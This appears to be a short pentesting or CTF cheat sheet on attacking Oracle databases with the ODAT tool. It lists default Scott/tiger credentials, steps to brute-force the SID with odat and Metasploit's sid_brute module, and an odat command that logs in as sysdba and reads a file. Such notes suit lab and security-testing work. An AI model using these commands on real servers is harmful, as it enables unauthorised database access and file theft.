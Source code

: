 # Oracle / ODAT

## Basic credentials
``` 
Username --> Scott 
Password --> tiger
```

## Attacks and exploits
### Brute force SID  
**[HELP](https://www.blackhat.com/presentations/bh-usa-09/GATES/BHUSA09-Gates-OracleMetasploit-SLIDES.pdf)**       
1. Use: `odat` and its `sidguesser` to bruteforce with a link provided
2. Use metasploit and use `auxiliary(admin/oracle/sid_brute)`
3. Use `sqlplus` to login with the creds or
    1. Read file with odat:    
    ```sh
    odat ctxsys -s <ip> -d XE -U SCOTT -P tiger --sysdba --getFile flag.txt
    ```